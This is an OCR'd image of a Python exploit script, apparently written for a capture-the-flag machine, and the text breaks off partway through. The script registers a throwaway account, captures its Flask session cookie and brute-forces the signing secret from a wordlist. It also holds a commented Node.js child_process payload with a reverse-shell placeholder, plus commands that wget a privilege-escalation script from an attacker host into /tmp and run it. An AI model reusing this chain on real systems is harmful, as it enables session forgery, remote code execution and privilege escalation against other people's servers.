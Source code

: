 ```python
commands = ['/usr/bin/mkdir /tmp/privesc', 'cd /tmp/privesc; /usr/bin/wget http://{}:{}/{}', '/usr/bin/python3 /tmp/privesc/{} {} {}']

# malicious payload to rce(js)
# - - - - - - - - - - - - - - -
# ---js
#
#     ((require("child_process")).execSync("{reverse shell}"))
#   
# ---

# get random string
def get_random_string(length):
    return ''.join(random.choice(string.ascii_letters) for i in range(length))

# get new user cookie
def get_cookie():
    p = log.progress('Creating user')
    time.sleep(1)
    try:
        s = requests.Session()
        # register
        user = get_random_string(5)
        headers = {'Content-Type':'application/x-www-form-urlencoded'}
        data = '&'.join(('name={d}', 'email={d}@gmail.com', 'username={d}', 'password={d}', 'confirm={d}')).format(d=user)
        s.post(f'{target_url}/register', headers=headers, data=data)
        # login
        data = '&'.join(('username={d}', 'password={d}')).format(d=user)
        s.post(f'{target_url}/login', data=data, headers=headers)
        # get cookie
        session_cookie = s.cookies.get_dict();
        p.success('Username -> {d} , Password -> {d}'.format(d=user))
    except Exception as e:
        p.failure('{} ocurred'.format(e))
    return session_cookie

# create wordlist
def load_wordlist():
    with open('all.txt', 'r') as file:
        wordlist = file.readlines()
    return wordlist

# bruteforce new user cookie
def bruteforce_cookie(wordlist):
    cookie = get_cookie()
    p = log.progress('Starting Brute-force attack')
    time.sleep(1)
    for secret in wordlist:
        secret = secret.strip('\n')
        p.status('{}'.format(secret))
        try:
            serializer = URLSafeTimedSerializer(
                        secret_key=secret,
                        salt='cookie-session',
                        serializer=TaggedJSONSerializer(),
                        signer=TimestampSigner,
                        signer_kwargs={
                                'key_derivation' : 'hmac',
                                'digest_method' : hashlib.sha1
                            }
                        ).loads(cookie['session'])
            log.info('Payload : {}'.format(serializer))
```